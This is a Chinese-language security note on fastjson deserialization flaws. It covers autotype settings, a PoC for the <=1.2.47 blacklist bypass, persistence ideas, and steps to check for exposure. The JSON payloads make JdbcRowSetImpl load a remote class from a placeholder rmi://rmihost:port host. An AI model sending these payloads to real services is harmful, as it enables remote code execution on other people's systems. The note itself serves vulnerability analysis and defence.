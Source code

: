 # fast json漏洞

## enable_autotype

1. 设置autotype白名单
 1.1 代码中设置
``` java
ParserConfig.getGlobalInstance().addAccept("com.taobao.pac.client.sdk.dataobject."); 
```
 1.2 JVM启动参数中设置
``` sh
-Dfastjson.parser.autoTypeAccept=com.taobao.pac.client.sdk.dataobject.,com.cainiao. 
```
 1.3通过fastjson.properties文件配置
在1.2.25/1.2.26版本中支持通过类路径的fastkson.properties文件配置
``` properties
fastjson.parser.autoTypeAccept=com.taobao.pac.client.sdk.dataobject.,com.cainiao. // 如果有多个包名前缀，用逗号隔开
```

2. 打开autotype功能

 2.1 JVM启动参数中打开
``` sh
-Dfastjson.parser.autoTypeSupport=true
```

 2.2 代码中设置
``` java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); 
```

## fastjson反序列化漏洞

fastjson的"@type"用法(autotype)能够快速的将json语句转化为@type指定的实体类，但该方法存在代码执行漏洞，
攻击者可精心构造一个json序列化数据进行攻击，如：
``` json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://rmihost:port/Object","autoCommit":true}
```
当使用JSON.parseObject()解析以上json语句时，fastjson会初始化JdbcRowSetImpl，然后通过setDataSourceName()方法设置dataSourceName，
最后再通过setAutoCommit()方法设置autoCommit参数来达到从rmihost远程加载类达到攻击效果。

## fastjson <= 1.2.47远程代码执行漏洞分析
该漏洞严格来说属于逻辑漏洞，因为autotype存在安全漏洞，所以fastjson在1.2.25之后就修改了autotype功能，
使其不能反序列化任意类，而此次漏洞则是利用fastjson自身存在的漏洞来绕过了autotype的黑名单，实现了任意类的反序列。
利用该漏洞的POC如下：
``` json
{"cache":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"value":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://rmihost:port/Exploit","autoCommit":true}}
```
在1.2.48版本的补丁中，fastjson对黑名单做了更新，添加了java.lang.class这个类，在MiscCode中也将传入的cache参数设置为了false，ParserConfig.checkAutoType()也调整了检查策略和逻辑。

## 新版本fastjson反序列化漏洞利用

想要在新版本中利用fastjson的反序列化漏洞需要fastjson开启autotype功能，即项目满足enable_autotype中的相关设置。
也可通过其他的漏洞来实现fastjson的autotype功能开启，如：
1. 通过任意文件写漏洞，将fastjson开启autotype的JVM启动参数添加到启动文件中，如tomcat的catalina.sh文件
2. 利用java instrument进行代码注入开启fastjson的autotype功能，此用法可用于保存后门（待测试）

## 排查fastjson反序列化漏洞

1. 查看项目中正在使用fastjson版本，若存在受影响的fastjson版本，则立即进行升级,简易的查看方法(Linux环境下):
	``` sh
	find /target/path -type f -name 'fastjson-*.jar'
	```
2. 查看敏感文件是否被修改，如java程序的启动参数
3. 代码审查，查看代码中是否存在有手工设置开启fastjson autotype功能代码。

### 参考链接：
[FastJson最新反序列化漏洞分析][https://xz.aliyun.com/t/5680]
[FastJson 远程代码执行漏洞分析报告][https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955]
[Fastjson <=1.2.47 远程代码执行漏洞分析 ][https://www.anquanke.com/post/id/181874]
[fastjosn poc][https://github.com/shengqi158/fastjson-remote-code-execute-poc]